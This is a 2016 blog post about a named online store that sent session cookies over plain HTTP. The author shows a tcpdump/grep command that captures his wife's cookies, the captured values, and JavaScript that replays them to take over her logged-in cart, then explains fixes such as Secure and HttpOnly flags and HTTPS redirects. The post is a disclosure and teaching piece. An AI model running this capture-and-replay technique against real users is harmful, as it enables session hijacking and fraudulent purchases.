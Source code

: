 ```yaml
---
title: Stealing Session Cookies with Tcpdump
layout: post
date: 2016-06-23T21:55:24Z
tags: []
uuid: 309396d4-fe6e-30a1-1a96-35281b58fb77
---
```


My wife was shopping online for running shoes when she got this
classic Firefox pop-up.

[![](/img/tcpdump/warning-thumb.png)](/img/tcpdump/warning.png)

These days this is usually just a server misconfiguration annoyance.
However, she was logged into an account, which included a virtual
shopping cart and associated credit card payment options, meaning
actual sensitive information would be at risk.

The main culprit was the website's search feature, which wasn't
transmitted over HTTPS. There's an HTTPS version of the search (which
I found manually), but searches aren't directed there. This means it's
also vulnerable to [SSL stripping][sslstrip].

Fortunately Firefox warns about the issue and requires a positive
response before continuing. Neither Chrome nor Internet Explorer get
this right. Both transmit session cookies in the clear without
warning, then subtly mention it after the fact. She may not have even
noticed the problem (and then asked me about it) if not for that
pop-up.

I contacted the website's technical support almost two weeks ago and
they never responded, nor did they fix any of their issues, so for now
you can [see this all for yourself][rr].

### Finding the session cookies

To prove to myself that this whole situation was really as bad as it
looked, I decided to steal her session cookie and use it to manipulate
her shopping cart. First I hit F12 in her browser to peek at the
network headers. Perhaps nothing important was actually sent in the
clear.

![](/img/tcpdump/headers.png)

The session cookie (red box) was definitely sent in the request. I
only need to catch it on the network. That's an easy job for tcpdump.

    tcpdump -A -l dst www.roadrunnersports.com and dst port 80 | \
        grep "^Cookie: "

This command tells tcpdump to dump selected packet content as ASCII
(`-A`). It also sets output to line-buffered so that I can see packets
as soon as they arrive (`-l`). The filter will only match packets
going out to this website and only on port 80 (HTTP), so I won't see
any extraneous noise (`dst <addr> and dst port <port>`). Finally, I
crudely run that all through grep to see if any cookies fall out.

On the next insecure page load I get this (wrapped here for display)
spilling many times into my terminal:

    Cookie: JSESSIONID=99004F61A4ED162641DC36046AC81EAB.prd_rrs12; visitSo
      urce=Registered; RoadRunnerTestCookie=true; mobify-path=; __cy_d=09A
      78CC1-AF18-40BC-8752-B2372492EDE5; _cybskt=; _cycurrln=; wpCart=0; _
      up=1.2.387590744.1465699388; __distillery=a859d68_771ff435-d359-489a
      -bf1a-1e3dba9b8c10-db57323d1-79769fcf5b1b-fc6c; DYN_USER_ID=16328657
      52; DYN_USER_CONFIRM=575360a28413d508246fae6befe0e1f4

That's a bingo! I massage this into a bit of JavaScript, go to the
store page in my own browser, and dump it in the developer console. I
don't know which cookies are important, but that doesn't matter. I
take them all.

    document.cookie = "Cookie: JSESSIONID=99004F61A4ED162641DC36046A" +
                      "C81EAB.prd_rrs12;";
    document.cookie = "visitSource=Registered";
    document.cookie = "RoadRunnerTestCookie=true";
    document.cookie = "mobify-path=";
    document.cookie = "__cy_d=09A78CC1-AF18-40BC-8752-B2372492EDE5";
    document.cookie = "_cybskt=";
    document.cookie = "_cycurrln=";
    document.cookie = "wpCart=0";
    document.cookie = "_up=1.2.387590744.1465699388";
    document.cookie = "__distillery=a859d68_771ff435-d359-489a-bf1a-" +
                      "1e3dba9b8c10-db57323d1-79769fcf5b1b-fc6c";
    document.cookie = "DYN_USER_ID=1632865752";
    document.cookie = "DYN_USER_CONFIRM=575360a28413d508246fae6befe0e1f4";

Refresh the page and now I'm logged in. I can see what's in the
shopping cart. I can add and remove items. I can checkout and complete
the order. My browser is as genuine as hers.

### How to fix it

The quick and dirty thing to do is set the [Secure][secure] and
[HttpOnly][httponly] flags on all cookies. The first prevents cookies
from being sent in the clear, where a passive observer might see them.
The second prevents the JavaScript from accessing them, since an
active attacker could inject their own JavaScript in the page.
Customers would appear to be logged out on plain HTTP pages, which is
confusing.

However, since this is an online store, there's absolutely no excuse
to be serving *anything* over plain HTTP. This just opens customers up
to downgrade attacks. The long term solution, in addition to the
cookie flags above, is to redirect all HTTP requests to HTTPS and
never serve or request content over HTTP, especially not executable
content like JavaScript.


[rr]: https://www.roadrunnersports.com
[sslstrip]: https://www.youtube.com/watch?v=MFol6IMbZ7Y
[secure]: http://tools.ietf.org/html/rfc6265#section-4.1.2.5
[httponly]: http://tools.ietf.org/html/rfc6265#section-4.1.2.6
